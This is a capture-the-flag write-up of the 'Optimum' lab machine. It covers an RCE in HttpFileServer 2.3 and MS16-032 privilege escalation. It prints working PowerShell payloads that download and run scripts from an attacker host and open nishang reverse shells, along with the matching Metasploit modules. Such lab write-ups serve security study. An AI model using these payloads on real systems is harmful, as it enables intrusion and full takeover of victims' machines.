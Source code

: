 ## Optimum

Difficulty: Easy

### User Flag

Rustscan return to us that port 80 is open.

```
rustscan -a 10.10.10.8 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/e328c8ab-21c6-456a-8656-16d916c6632d)

<br>

Looking in the website, we see that HttpFileServer 2.3 is being used.

![website](https://github.com/b1d0ws/OSCP/assets/58514930/24475f35-a321-41d1-b75f-85bd820fc25f)

<br>

Searching vulnerabilities, there is a RCE exploit available.

![searchsploit](https://github.com/b1d0ws/OSCP/assets/58514930/176e3907-6dd7-4bc0-992f-6ee7b49077ee)

<br>

We can use [this one](https://www.exploit-db.com/exploits/49584) which automatically retrieves a shell for us.  

Remember to edit the exploit for your desired configurations.

![firstRevShell](https://github.com/b1d0ws/OSCP/assets/58514930/88d28c85-4a8b-4476-9bb4-f09358d0181a)

<br>

If we can to exploit this manually, get the search request of HFS and use the payload above to execute Invoe-PowerShellTcp from nishang.  

Remember to add a line invoking the script on the end of it.

```
# Add this to the end of Invoke-PowerShellTcp.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.21 -Port 1337

# Payload
%00{.exec|c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21:8000/Invoke-PowerShellTcp.ps1').}
```

![manualRevShell](https://github.com/b1d0ws/OSCP/assets/58514930/a2905f7a-8c02-4925-81d1-cac9ea3dfb1c)

<br>

### Root Flag

Enumerating the operational system, this OS Version is vulnerable to privilege escalation.

![enumeratingOS](https://github.com/b1d0ws/OSCP/assets/58514930/635d3c9b-4067-4437-a765-2fc4eaf44b67)

![searchingPrivEsc](https://github.com/b1d0ws/OSCP/assets/58514930/d59366af-44e0-467b-93d5-053489e241a6)

<br>

#### Explotiing with Metasploit

```
# Get a meterpreter session
exploit/windows/http/rejetto_hfs_exec

# Use this module to priv esc
exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

![privEscMetasploit](https://github.com/b1d0ws/OSCP/assets/58514930/1b294223-df66-4fd2-97c6-dd87f1308a21)

<br>

#### Manually

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1

# Add this to the end of the payload
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.21:8000/shell.ps1')"

cp Invoke-PowerShellTcp.ps1 shell.ps1
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.21 -Port 1338

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21:8000/Invoke-MS16032.ps1')
```

![scripts](https://github.com/b1d0ws/OSCP/assets/58514930/44b957bd-91f9-4b6d-8613-6360aaaf44d8)

![privilegeEscalation](https://github.com/b1d0ws/OSCP/assets/58514930/f99bdede-64da-4432-a107-e41c7a4dd21c)
